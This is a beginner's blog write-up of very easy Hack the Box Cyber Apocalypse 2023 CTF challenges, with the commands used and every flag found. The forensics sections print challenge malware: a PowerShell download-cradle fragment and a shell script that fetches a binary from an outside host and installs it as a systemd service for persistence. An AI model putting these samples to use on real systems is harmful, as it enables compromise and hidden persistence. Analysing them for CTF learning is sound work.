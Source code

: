 ```yaml
---
title: Hack the Box Cyber Apocalypse CTF 2023
date: 2023-03-23 
categories: [ctf, writeup, htb, jeopardy]
tags: [forensics, hardware, misc, pwn, web, warmup, python, curl]
---
```


# Hack the Box Cyber Apocalypse 2023 Complete! (≧∇≦)ﾉ

Cyber Apocalypse 2023 was a jeopardy style CTF spanning multiple categories such as: forensics, hardware, pwn, misc, web, machine learning, blockchain and cryptography.

This is my first CTF that I have entered though I continue to complete rooms on TryHackMe, using the HTB Academy and working through the PicoCTF Gym.
I've come to understand during this short experience - there's nothing quite like a live CTF. I hope to continue doing CTFs in future, at least, as much as time allows.

(Will be adding more over time).
- **Posts Added:** trapped source, persistence, plaintext tleasure, alien cradle, extraterrestrial persistence, initialise connection
- **Posts to follow:** getting started, initialise connection, questionnaire, critical flight, debut, and timed transmission


## Warmup

-------------------------

This was a fun little flag to be had after joining the Hack the Box discord. It was hiding in the announcements section as:

``` text
HTB{l3t_th3_tr3asur3_hunt1ng_b3g1n!}
```

## Trapped Source (Web) [Very Easy]
--------------------

This was a pretty straightforward and these were the steps I took for this challenge:

- Viewed the page source (Ctrl + U or Right-Click + View Page Source)
- Scanned the page for any mention of the HTB flag format HTB{...}
- No flag text present, so I checked for any scripts available
- Found a script named "correctPin" and tried the code "8291"
- Got the flag! 


``` text
HTB{V13w_50urc3_c4n_b3_u53ful!!!}
```


## Persistence (Misc) [Very Easy]
-------------------

First, I'll say, what a fitting name for this challenge 🤣

At the moment I don't know much about web-based challenges and incorrectly approached this at first. I read the question carefully and soon realised that the page needed to be accessed many, *MANY*  times (around 1000 as per the description).

There may be many ways to approach this, but I used what I knew, which was the handy tool called **cURL**.

At first, I tried to simply use the given url with curl, like so:

``` bash
$ curl ip-address:port/flag
```

And received a garbled string as a result. I knew that it was working, but it wouldn't do to simply repeat this request. So I looked up how to replicate the result continuously.

``` bash
$ while true; do curl ip-address:port/flag; done 
```

Great! This was working as well, but I needed to save the output somewhere:

``` bash
$ while true; do curl --output >(cat >> filename) ip-address:port/flag; done 
```

And after some long time later, a flag appears!
We can view it like so, piping it to grep:

``` bash
$ cat filename | grep "HTB{"
```

Getting the following output:
``` text
HTB{y0u_h4v3_p0w3rfuL_sCr1pt1ng_ab1lit13S!}
```

## Plaintext Tleasure (Forensics) [Very Easy]
------------------------------------------------------

This challenge had to be downloaded and contained a zip file, which can easily opened with the following command:

``` bash
$ unzip filename.zip
```

The extract file is named "capture.pcap". which I confirm with the *file* command.
Before searching through the file in its entirety, I decide to try basic commands and see if the flag can be found this way and this is the line which worked:

``` bash
$ strings capture.pcap | grep "HTB{"
```

We get the flag:

``` text
HTB{th3s3_4l13ns_st1ll_us3_HTTP}
```

## Alien Cradle (Forensics) [Very Easy]
----------------------------------------------------------

We are provided with a zipped folder containing a Powershell script. I confirm the contents:

``` shell
$ file cradle.ps1 

# cradle.ps1: ASCII text, with very long lines (618), with no line terminators
```

Knowing that a lot of text exists within this file, I consider the following command:

``` bash
$ strings cradle.ps1

# [top portion redacted for warnings]...'{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}';IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($s,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```

The flag is hiding within the post, separated in such a manner that the usual 'trick' of "HTB{" won't suffice here, so it was a good choice to check the contents with *strings*  first.

There probably is a more efficient way to extract the flag from this text, but for now, I simply copied the relevant ouput and cleaned it up as per the flag ruling:

``` text
HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}
```

## Extraterrestrial Persistence (Forensics) [Very Easy]
-------------------------------------

This challenge was provided as a downloadable zip file, which upon extraction reveals a shell script file. I confirm this as usual:

``` bash
$ file persistence.sh

# persistence.sh: ASCII text, with very long lines (396), with CRLF line terminators
```

Although the file provided is not executable, being a shell script, I opted to view the file contents first:

``` bash
$ cat persistence.sh

# n=`whoami`
# h=`hostname`
# path='/usr/local/bin/service'
# if [[ "$n" != "pandora" && "$h" != "linux_HQ" ]]; then exit; fi

# curl https://files.pypi-install.com/packeges/service -o $path

# chmod +x $path

# echo -e "W1VuaXRdCkRlc2NyaXB0aW9uPUhUQnt0aDNzM180bDEzblNfNHIzX3MwMDAwMF9iNHMxY30KQWZ0ZXI9bmV0d29yay50YXJnZXQgbmV0d29yay1vbmxpbmUudGFyZ2V0CgpbU2VydmljZV0KVHlwZT1vbmVzaG90ClJlbWFpbkFmdGVyRXhpdD15ZXMKCkV4ZWNTdGFydD0vdXNyL2xvY2FsL2Jpbi9zZXJ2aWNlCkV4ZWNTdG9wPS91c3IvbG9jYWwvYmluL3NlcnZpY2UKCltJbnN0YWxsXQpXYW50ZWRCeT1tdWx0aS11c2VyLnRhcmdldA=="|base64 --decode > /usr/lib/systemd/system/service.service
```

Interesting, not only do we learn a bit of shell script commands, we get an idea of the persistence mechanism the aliens have created (lore information for the CTF, but also knowledge in general). 

The Base64 string seems promising, so I focus my attention there instead.
There are many sites to decode base64 online, but knowing how to achieve the same result from terminal is ideal for learning. 

The output is sent to the terminal via echo and then piped into the base64 utility with the -d tack for the decode option:

``` bash
echo "W1VuaXRdCkRlc2NyaXB0aW9uPUhUQnt0aDNzM180bDEzblNfNHIzX3MwMDAwMF9iNHMxY30KQWZ0ZXI9bmV0d29yay50YXJnZXQgbmV0d29yay1vbmxpbmUudGFyZ2V0CgpbU2VydmljZV0KVHlwZT1vbmVzaG90ClJlbWFpbkFmdGVyRXhpdD15ZXMKCkV4ZWNTdGFydD0vdXNyL2xvY2FsL2Jpbi9zZXJ2aWNlCkV4ZWNTdG9wPS91c3IvbG9jYWwvYmluL3NlcnZpY2UKCltJbnN0YWxsXQpXYW50ZWRCeT1tdWx0aS11c2VyLnRhcmdldA==" | base64 -d
```


We are then presented with the following decoded output, with our hiding in the Description portion:
``` text
[Unit]
Description=HTB{th3s3_4l13nS_4r3_s00000_b4s1c}
After=network.target network-online.target

[Service]
Type=oneshot
RemainAfterExit=yes

ExecStart=/usr/local/bin/service
ExecStop=/usr/local/bin/service

[Install]
WantedBy=multi-user.target
```

Flag:
``` text
HTB{th3s3_4l13nS_4r3_s00000_b4s1c}
```

## Initialise Connection (Pwn) [Very Easy]
-----------------------------

We are informed to connect to the challenge with netcat in the following manner:

``` bash
$ nc ip-address port

▣▣▣▣▣▣▣▣▣▣▣▣▣▣▣▣▣▣▣▣▣▣▣▣▣▣▣▣▣▣
▣                            
▣  Enter 1 to get the flag!  
▣                            
▣▣▣▣▣▣▣▣▣▣▣▣▣▣▣▣▣▣▣▣▣▣▣▣▣▣▣▣▣▣

```
Then send the number 1 in order to get the flag. 

``` bash
>> 1
HTB{g3t_r34dy_f0r_s0m3_pwn}
```

A very easy challenge which also teaches a bit on using nc.





